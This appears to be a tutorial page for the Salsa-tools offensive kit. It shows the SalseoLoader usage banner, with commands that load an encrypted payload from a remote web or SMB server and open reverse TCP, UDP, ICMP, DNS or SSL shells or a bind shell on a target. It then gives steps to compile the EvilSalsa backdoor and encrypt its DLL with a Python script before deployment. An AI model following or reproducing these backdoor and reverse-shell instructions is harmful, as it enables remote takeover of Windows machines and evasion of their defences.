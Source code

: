```
                             By: CyberVaca@HackPlayers

[+] Usage:

    [-] SalseoLoader.exe password http://webserver.com/elfuckingmal.txt ReverseTCP LHOST LPORT
    [-] SalseoLoader.exe password \\smbserver.com\evil\elfuckingmal.txt ReverseUDP LHOST LPORT
    [-] SalseoLoader.exe password c:\temp\elfuckingmal.txt ReverseICMP LHOST
    [-] SalseoLoader.exe password http://webserver.com/elfuckingmal.txt ReverseDNS LHOST ServerDNS
    [-] SalseoLoader.exe password http://webserver.com/elfuckingmal.txt BindTCP LHOST LPORT
    [-] SalseoLoader.exe password c:\temp\elfuckingmal.txt ReverseSSL LHOST LPORT

[+] Shells availables:

    [-] ReverseTCP  [-] ReverseDNS   [-] ReverseSSL
    [-] ReverseUDP  [-] ReverseICMP  [-] BindTCP
```

# Tutorial

## Compiling the binaries

Download the source code from the github and compile **EvilSalsa** and **SalseoLoader**. You will need **Visual Studio** installed to compile the code.


Compile those projects for the architecture of the windows box where your are going to use them(If the Windows supports x64 compile them for that architectures).


You can **select the architecture** inside Visual Studio in the **left "Build" Tab in "Platform Target"**.

(If you can't find this options press in "**Project Tab**" and then in "**<Project-Name> Properties**")

![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/imagen1.png)

Then, build both projects (Build -> Build Solution) (Inside the logs will appear the path of the executable):

![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/imagen2.png)

## Prepare the Backdoor

First of all, you will need to encode the **EvilSalsa.dll**. To do so, you can use the python script **encrypterassembly.py** or you can compile the project **EncrypterAssembly**

### Python
```bash
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsa.dll password evilsalsa.dll.txt
```
